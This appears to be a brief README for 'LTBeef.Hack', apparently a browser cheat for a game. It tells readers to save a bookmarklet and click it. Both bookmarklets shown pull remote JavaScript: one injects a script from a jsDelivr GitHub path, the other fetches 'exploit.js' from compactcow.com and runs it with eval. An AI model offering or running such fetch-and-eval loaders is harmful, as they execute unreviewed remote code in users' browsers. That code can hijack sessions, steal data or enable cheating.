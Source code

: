 # LTBeef.Hack
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwor...}())
Make a bookmark put this code in and click the bookmark twice.

javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
Go to github.com/BizmoFunions895 for more
